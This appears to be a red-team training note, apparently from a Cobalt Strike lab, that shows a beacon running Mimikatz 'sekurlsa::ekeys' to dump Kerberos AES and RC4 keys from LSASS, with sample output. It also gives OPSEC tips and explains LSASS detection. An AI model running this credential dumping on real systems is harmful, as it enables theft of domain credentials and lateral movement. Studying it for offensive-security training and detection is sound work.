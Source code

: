 {% hint style="warning" %}
This command requires ELEVATED privileges.
{% endhint %}

```
beacon> mimikatz !sekurlsa::ekeys

Authentication Id : 0 ; 459935 (00000000:0007049f)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/1/2022 7:29:19 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105

	 * Username : jking
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
	   rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
	   rc4_md4           59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c
```

{% hint style="info" %}
It is important to note that Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.

In this case, the AES-256 key is the one that we want!!
{% endhint %}

These hashes are not automatically populated within the Credential data model, but they can be added manually in **View -> Credentials -> Add**.

{% hint style="danger" %}
OPSEC&#x20;

This module also opens a read handle to LSASS.
{% endhint %}

## What is LSASS

We've mentioned LSASS, but what really is it?

LSASS, or the Local Security Authority Subsystem Service (LSASS), is a process in Windows OS' that is responsible for enforcing the security policy on the system.

Essentially, <mark style="color:green;">it</mark> <mark style="color:green;"></mark>_<mark style="color:green;">**verifies**</mark>_ <mark style="color:green;"></mark><mark style="color:green;">users logging on to a Windows computer/server, handles password changes, and creates access tokens</mark>.

Since it is so powerful and an often target by attackers, blue teamers have alerts for this kind of behavior to alert to them when a handle is opened to LSASS; resulting in a potential IoC.
